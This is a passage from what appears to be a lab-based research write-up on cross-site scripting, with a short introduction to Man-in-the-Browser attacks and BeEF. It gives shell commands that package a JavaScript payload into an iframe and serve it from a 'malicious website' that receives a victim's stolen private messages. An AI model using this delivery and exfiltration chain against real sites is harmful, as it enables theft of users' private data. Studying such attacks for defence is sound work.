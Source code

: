    #Base64 encode the JS
    base64 -w0 read-private.js > read-private.b64

    #Put everything together in an iFrame
    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html

    #Start our malicious website
    cd malicious-website && python3 -m http.server 1337

When an authenticated user (test2 in my case) visits localhost:1337/read-private.html, our malicious server quicly receives a GET containing all the stolen messages :

![Exploit : reading private messages](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/read-private.png)

    1. Target gets the exploit delivered
    2. Target follows the iFrame
    3. Target executes the script, sending requests to fetch the messages... (not all visible here)
       ...and ultimately sends the GET request containing all the data, back to our malicious website
    4. Attacker receives the data (url-encoded)
    5. Attacker decodes the data

D. Man In the Browser
---------------------

###Explanations
While it may take many forms, the way it is achieved using an XSS vulnerability is usually by opening a Websocket connection back to attacker's server.
This gives us a full, interactive access to the page's javascript environment.
Granted, it is a limited form of MitB attack, since (until further exploitation), we are restricted to the page where lies the XSS.

This kind of attack, requiring elaborated architectures, would be complicated to set up wouldn't it be already some fully functional existing solution. The most famous being BeEF\cite{beef} (short for The Browser Exploitation Framework).
        
###BeEF
BeEF is a server that you run on your machine as the attacker. It serves two main ressources over HTTP : a user interface, and a file $hook.js$. When $hook.js$ is executed on a webpage, the websocket previously mentioned is instanciated. The browser who executed it is then $hooked$.
